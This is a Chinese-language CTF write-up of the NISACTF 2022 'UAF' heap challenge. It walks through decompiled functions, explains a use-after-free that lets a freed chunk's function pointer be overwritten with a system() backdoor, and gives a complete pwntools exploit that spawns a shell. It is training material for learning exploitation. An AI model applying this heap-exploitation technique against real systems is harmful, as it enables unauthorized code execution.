



# [[NISACTF 2022]](https://www.nssctf.cn/problem/2161)UAF

```shell
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=85bd87e16a35c0c05064a1a0938f6115b8b3b2be, not stripped
```

> $ file pwn

```shell
[*] '/home/bamuwe/NISACTF_2022_UAF/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> $ checksec pwn

```c
int create()
{
  int result; // eax
  int v1; // ebx
  char *v2; // eax

  printf("you are creating the %d page\n", i);
  result = i;
  if ( i >= 0 )
  {
    result = i;
    if ( i <= 9 )
    {
      v1 = i;
      (&page)[v1] = malloc(8u);
      if ( i )									// 判断点
      {
        if ( i <= 0 || i > 9 )
        {
          return puts("NO PAGE");
        }
        else
        {
          puts("Good cretation!");
          return ++i;
        }
      }
      else
      {
        v2 = page;
        *page = 'oaig';                         // giao
        v2[4] = 0;
        *(page + 1) = echo;						// 在堆中存贮了echo()的地址
        puts("The init page");
        return ++i;
      }
    }
  }
  return result;
}
```

> create()函数

```c
int __cdecl NICO(char *command)
{
  return system(command);
}
```

> 后门函数NICO()

```c
unsigned int del()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 < 0 || v1 > i )
    puts("NO PAGE");
  else
    free((&page)[v1]);
  return __readgsdword(0x14u) ^ v2;
}											// 没有清空指针
```

> del()函数

```c
unsigned int show()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 )                                     // v1=0
  {
    if ( v1 <= 0 || v1 > i )
      puts("NO PAGE");
    else
      echo((&page)[v1]);
  }
  else
  {
    (*(page + 1))(page);                        // 利用点
  }
  return __readgsdword(0x14u) ^ v2;
}
```

> show()函数

交互函数：

```python
def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
```

程序逻辑：

1. `add()`堆块的时候，如果创建的是第一块`chunk0`则往`chunk0+1`的位置写入`echo()`的地址
2. del()并没有删除指针
3. `show()`执行时，如果是`chunk1-9`非零`chunk`，则`echo((&page)[v1]);`，如果是`chunk0`，则`(*(page + 1))(page); `，正常情况下是执行`echo(page)`

利用思路：

1. 程序存在`UAF`，所以可以先申请`chunk0`然后释放再申请，就可以获得两个指针`*chunk0,*chun1`都指向同一块内存区域

   ```python
   add()   #0
   free(0)
   add()   #1
   ```

   

   重新申请的时候由于`i`的值没有重置`（i=1）`，所以不会重新向`chunk`中写入`echo`的地址，我们也可以发现，此时`show(0)`是失效的

   

2. 只有在`chunk0`上才能执行我们的利用点



3. 我们通过`*chunk1`修改`chunk0/1`上的内容为`sh\x00\x00`,我们要考虑栈平衡填充，同时修改`page+1`为后门函数地址，构造`NICO(sh)`

   ```python
   edit(1,b'/sh\x00'+p32(0x8048642))
   show(0)
   ```

___

exp:

```python
from pwn import *
io = gdb.debug('./pwn')

def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
    
add()   #chunk0
free(0)
add()   #chunk1
edit(1,b'sh\x00\x00'+p32(0x8048642))
show(0)

io.interactive()
```

